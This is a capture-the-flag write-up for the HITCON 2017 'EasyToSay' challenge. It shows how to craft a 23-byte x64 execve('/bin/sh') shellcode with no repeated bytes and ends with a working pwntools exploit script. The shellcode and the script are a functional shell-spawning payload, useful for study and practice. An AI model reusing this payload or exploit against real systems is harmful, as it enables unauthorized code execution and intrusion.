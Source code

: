 ```yaml
---
title: "EasyToSay | Hitcon 2017"
categories: ["pwn"]
tags: ["shellcode"]
Points: 144
Solves: 139
---
```


This is a writeup explaining how I wrote a shellcode payload bypassing a size limit and avoiding repeated bytes.

## Overview
After reversing the binary we easily see the program will run any shellcode we give it with the following conditions:
1. is shorter than 24 bytes
2. does not have repeated bytes

After a little debugging we also see that before executing our shellcode all registers are zero'd.


## Solution

Here I will go through the ideias I had before arriving at the final solution.

### 1. Basic x64 shellcode
First lets try a basic x64 shellcode and see if there are any repeating bytes. That looks something like:
1. put '/bin/sh\x00' on the stack
2. put that stack address in `rdi` (filename)
3. make `rsi` (argv) equal 0
4. make `rdx` (envp) equal 0
5. call the execve syscall (a syscall table for x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))

We get step 3 and 4 for free since all registers are already zero'd from the start. The rest looks something like this:

```nasm
68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
48 89 e7            mov    rdi, rsp     ; 2. Put the '/bin//sh' addr in rdi
b0 3b               mov    al, 0x3b     ; 5. Mov to rax the execve syscall number
0f 05               syscall             ; 5. call it
```

### 2. Can't have 2 push's
As we can see on the left there are repeated bytes in the first two intructions.
Having 2 `push` instructions is not an option since the opcode will be repeated. Lets try to do it with a `mov` instead of a `push` and see if we have better luck.

```nasm
c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
68 2f 62 69 6e          push   0x6e69622f
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That is better but `/bin/sh\x00` contains two `/` (2f) and that is a problem since it is a repeated byte. Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`. Let's try another version:

```nasm
49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
73 68 00
41 54                   push   r12
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

Closer! Now we only have to somehow remove the extra `/`.

At this point I tried using just `sh` or `bash`, but the execve syscall only works with a full path, making the two slashes necessary.


### 3. Masking the repeated '/'
Now the plan is to mask the slash. Instead of putting a slash there directly we want to:
1. mask `'/'` by sending the value of `'/' - 1`
2. unmask it by adding `1`, making it a `'/'` again.

```nasm
49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
73 68 00
41 54                   push   r12
fe 44 24 04             inc    BYTE PTR [rsp+0x4]
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That worked! No repeated bytes and a length of 23. Just under the 24 byte limit!


## Exploit
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

def go():
    s = process("./easy_to_say")
    # s = remote("52.69.40.204", 8361)

    shellcode = asm(\
    """
        mov r12, %s
        push r12
        inc byte ptr [rsp+0x4]
        mov rdi, rsp
        mov al, 59
        syscall
    """ % (hex(u64("/bin" + chr(ord('/') - 1) + "sh\x00"))))


    # Check if there are any repeated bytes
    for i in range(len(shellcode)):
        for j in range(i):
            if shellcode[i] == shellcode[j]:
                print i, "==", j, "(", hex(ord(shellcode[j])), ")"
    print "There are %d bytes repeated" % (len(shellcode) - len(set(shellcode)))
    print "Shellcode of len: ", len(shellcode)
    print disasm(shellcode)

    s.sendline(shellcode)
    s.interactive()

go()
```